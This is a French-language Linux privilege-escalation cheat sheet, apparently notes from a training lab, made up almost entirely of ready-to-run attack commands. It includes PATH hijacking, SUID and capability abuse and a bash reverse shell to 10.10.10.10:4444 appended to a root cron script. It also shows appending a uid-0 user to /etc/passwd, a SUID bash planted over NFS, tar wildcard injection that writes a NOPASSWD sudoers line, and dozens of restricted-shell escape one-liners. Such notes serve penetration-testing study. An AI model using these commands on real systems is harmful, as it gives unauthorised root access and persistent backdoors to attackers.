

## Path Abuse

La manipulation de la variable d'environnement **$PATH** permet de détourner l'exécution de binaires système au profit de scripts malveillants.

> [!attention]
> La modification de **$PATH** peut casser le fonctionnement normal du système si mal exécutée.

### Vérification de la valeur actuelle de $PATH

```bash
echo $PATH
env | grep PATH
```

### Création d'un script dans un dossier inclus dans $PATH

```bash
echo '#!/bin/bash' > /usr/local/sbin/conncheck
echo 'netstat -antp' >> /usr/local/sbin/conncheck
chmod +x /usr/local/sbin/conncheck
# Le script peut maintenant être lancé depuis n'importe où :
conncheck
```

### Ajout du dossier courant dans $PATH

```bash
PATH=.:$PATH
export PATH
```

### Exemple : remplacement de la commande ls

```bash
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
ls
# Résultat : PATH ABUSE!!
```

### Utilisation typique

* Cibler un utilisateur qui utilise **sudo** sans spécifier le chemin absolu.
* Profiter d'un script vulnérable exécuté automatiquement qui appelle des commandes sans chemin absolu.
* Détourner l'exécution de **ls**, **cp**, **cat**, etc.

---

## SUID/SGID Binaries

Les fichiers avec le bit **SUID** (Set User ID) s'exécutent avec les privilèges du propriétaire du fichier, souvent **root**.

### Recherche des binaires SUID/SGID

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

### Exploitation via GTFOBins
Si un binaire SUID est listé sur [GTFOBins](https://gtfobins.github.io/), il est souvent possible d'obtenir un shell.

Exemple avec **find** :
```bash
find . -exec /bin/sh -p \; -quit
```

> [!note]
> Voir les notes liées : **SUID Binaries**.

---

## Linux Capabilities

Les **Capabilities** permettent de diviser les privilèges root en unités plus petites, évitant d'avoir un processus tournant entièrement en root.

### Recherche des capacités sur le système

```bash
getcap -r / 2>/dev/null
```

### Abus courant (ex: cap_setuid)
Si un binaire possède la capacité `cap_setuid+ep`, il peut changer son UID.

```bash
# Exemple avec python3
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> [!note]
> Voir les notes liées : **Linux Capabilities**.

---

## Cron Jobs (hors wildcard)

Les tâches planifiées exécutées par **root** sont des vecteurs d'élévation de privilèges si les scripts appelés sont modifiables.

### Inspection des tâches planifiées

```bash
cat /etc/crontab
ls -la /etc/cron.*
crontab -l -u root
```

### Stratégie d'exploitation
Si un script exécuté par root est inscriptible par votre utilisateur :
```bash
echo "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1" >> /chemin/vers/script.sh
```

> [!note]
> Voir les notes liées : **Cron Job Exploitation**.

---

## Writable /etc/passwd ou /etc/shadow

Si ces fichiers sont inscriptibles, il est possible de modifier le mot de passe root ou d'ajouter un utilisateur privilégié.

### Ajout d'un utilisateur root
```bash
openssl passwd -1 -salt htb password123
# Génère : $1$htb$Lh.M5...
echo 'htb:$1$htb$Lh.M5...:0:0:root:/root:/bin/bash' >> /etc/passwd
su htb
```

---

## NFS Root Squashing

Le **NFS Root Squashing** empêche un utilisateur distant de conserver ses privilèges root sur le partage monté. S'il est désactivé (`no_root_squash`), l'élévation est triviale.

### Vérification sur la cible
```bash
cat /etc/exports
```

### Exploitation depuis la machine attaquante
```bash
# Monter le partage
mount -t nfs 10.10.10.10:/tmp /mnt/nfs
# Créer un binaire SUID sur le partage
cp /bin/bash /mnt/nfs/rootbash
chmod +s /mnt/nfs/rootbash
```

---

## Kernel Exploits

L'exploitation du noyau est le dernier recours en raison du risque de crash système.

### Identification de la version
```bash
uname -a
cat /etc/os-release
```

### Recherche d'exploits
Utiliser des outils comme **linux-exploit-suggester** ou rechercher sur **searchsploit** :
```bash
searchsploit linux kernel 4.4.0
```

---

## Wildcard Abuse

L'abus de caractères génériques (**wildcard**) permet d'injecter des arguments malveillants dans des commandes exécutées par des scripts ou des tâches planifiées.

> [!danger]
> L'utilisation de wildcards dans des scripts root est une faille critique de sécurité.

> [!note]
> Condition critique : Le succès de l'abus de wildcard nécessite que le cron job soit exécuté avec des privilèges supérieurs.

### Exemple : Cron job tar vulnérable

Un cron exécute :
```bash
tar -zcf /home/htb-student/backup.tar.gz *
```

### Étapes de l'abus avec tar

1. Création d'un script malveillant :
```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```

2. Création des fichiers interprétés comme options par **tar** :
```bash
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh root.sh"
```

3. Vérification de la présence des fichiers :
```bash
ls -la
```

### Commandes sensibles à l'abus de wildcard

* **rsync**
* **tar**
* **cp**
* **mv**
* **chmod**
* **chown**

---

## Escaping Restricted Shells

L'objectif est de sortir d'un shell restreint (ex: **rbash**) pour regagner un shell interactif libre.

> [!tip]
> Prérequis : L'évasion de shell restreint dépend fortement des binaires disponibles dans le **PATH** autorisé.

### Flux d'évasion



### Vérification initiale

```bash
echo $0        # Voir le shell utilisé (ex : rbash)
echo $SHELL    # Peut montrer le shell de login
```

### Techniques d'évasion

#### Substitution de commandes
```bash
ls -l `pwd`
ls -l $(pwd)
```

#### Chaînage de commandes
```bash
ls; /bin/sh
ls | /bin/sh
```

#### Variables d'environnement
```bash
PATH=.:$PATH
export PATH
echo "bash" > ls && chmod +x ls && ls
```

#### Shell intégré via éditeurs
```bash
vi
:set shell=/bin/bash
:shell
```

```bash
nano
# Ctrl+R puis Ctrl+X
reset; sh 1>&0 2>&0
```

#### Python, Perl, Awk
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/sh";'
awk 'BEGIN {system("/bin/sh")}'
```

#### SSH avec commande interactive
```bash
ssh user@host /bin/bash
```

#### Échappement via fonction shell
```bash
function shellme { /bin/bash; }
shellme
```

#### Utilisation de commandes autorisées
```bash
man bash
!sh
```

```bash
less /etc/passwd
!bash
```

#### Compilation C
```c
#include <stdlib.h>
int main() { system("/bin/bash"); return 0; }
```
```bash
gcc escape.c -o escape && ./escape
```

---

## Escaping Restricted Shells - Avancé

Techniques complémentaires pour le bypass de **rbash**, **rzsh**, **rksh** ou **lshell**.

### Informations initiales
```bash
echo $SHELL
echo $0
env | less
sudo -l
type -a cmd
```

### Abus des éditeurs et pagers
```bash
# less / more / man / pinfo
echo test | less
!/bin/bash

man bash
!/bin/bash
```

```bash
# vim / vi / ed / pico
vim
:set shell=/bin/bash
:shell
```

### Langages de script
```bash
python3 -c 'import os; os.system("/bin/sh")'
perl -e 'exec "/bin/sh";'
php -r 'system("sh");'
ruby -e 'exec "/bin/sh"'
lua -e 'os.execute("/bin/sh")'
expect -c 'spawn sh; interact'
```

### Commandes système interactives
```bash
nmap --interactive
!sh

find . -exec /bin/sh \;

awk 'BEGIN {system("/bin/sh")}'

gdb
!sh
```

### Via SSH et Shellshock
```bash
ssh user@ip -t "/bin/bash --noprofile"

# Shellshock
ssh user@ip -t "() { :; }; /bin/bash"
```

### Archivers
```bash
tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

zip /tmp/test.zip test -T --unzip-command="sh -c /bin/bash"
```

### Git
```bash
git help status
!/bin/bash
```

> [!note]
> Ces techniques sont liées aux concepts de **Linux Privilege Escalation**, **Cron Job Exploitation**, **Linux Capabilities** et **SUID Binaries**.